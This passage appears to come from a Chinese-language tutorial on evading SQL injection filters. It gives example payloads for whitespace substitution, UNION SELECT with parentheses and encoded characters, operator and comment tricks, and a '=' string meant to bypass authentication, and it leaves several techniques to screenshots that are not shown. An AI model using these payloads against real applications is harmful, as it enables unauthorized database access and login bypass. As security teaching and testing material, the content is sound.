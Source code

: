 test.php?username=admin%e4中的%e4会被admin忽略掉而绕过了一些逻辑，还有一些类似于$e4这样的字符如%c2等

**绕空格**

**特殊字符绕过空格**

[![](./img/85936/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01dbdfb9b9041b58bf.png)

Example:

```
'%0AUNION%0CSELECT%A0NULL%20%23
```

**括号绕过空格**

[![](./img/85936/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0117ec13f9a2167a68.png)

Example:

```
UNION(SELECT(column)FROM(table))
```

**and/or后插入字符绕过空格**

任意混合+ – ~ !可以达到绕过空格的效果（可以现在本地测试，混合后需要的奇偶数可能不同）



```
SELECT DISTINCT(db) FROM mysql.db WHERE `Host`='localhost' and-++-1=1;需要偶数个--
SELECT DISTINCT(db) FROM mysql.db WHERE `Host`='localhost' and!!~~~~!1=1;需要奇数个！
```

其实一下的字符都可以测试

[![](./img/85936/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0196e8f61c4c17280f.png)

**注释符&amp;引号**



```
SELECT DISTINCT(db) FROM mysql.db WHERE `Host`='localhost' and/**/1=1;
SELECT DISTINCT(db) FROM mysql.db WHERE `Host`='localhost' and"1=1";
```

**编码绕过**

[![](./img/85936/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t013b5957d9c9c95552.png)

**关键字绕过**

测试用例information_schema.tables

[![](./img/85936/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01f8a6735b7854e099.png)

**认证绕过**

绕过语句：'='



```
select data from users where name="="
select data from users where flase="
select data from users where 0=0
```
